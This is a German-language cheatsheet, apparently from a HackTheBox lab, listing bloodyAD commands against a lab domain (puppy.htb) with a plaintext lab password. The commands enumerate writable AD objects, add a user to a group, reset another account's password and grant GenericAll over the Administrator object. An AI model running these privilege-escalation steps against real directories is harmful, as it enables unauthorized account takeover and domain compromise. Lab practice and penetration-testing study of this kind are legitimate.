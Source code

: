 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object administrator
```
<br>

🧩 **Add User To Group**

Zeigt die Zugriffsrechte (ACLs) auf das Gruppenobjekt $group_name im Active Directory. 
Anhand der Rechte kann dann die Mitgliedschaft hinzugefügt werden, sofern GenericAll, WriteProperty, WriteDACL etc. vorhanden sind.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

<br>

🧩 **Change Password**

Fragt mit bloodyAD die Zugriffssteuerungsliste (ACL) eines Active Directory-Objekts und anschließend wird das Passwort vom Zielobjekt geändert, sofern Berechtigungen vorhanden sind.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Versucht, dem Benutzer Levi.James die GenericAll-Berechtigung auf das AD-Objekt mit dem Distinguished Name Administrator zu geben.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass levi.james volle Rechte bekommt.“
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" levi.james
```
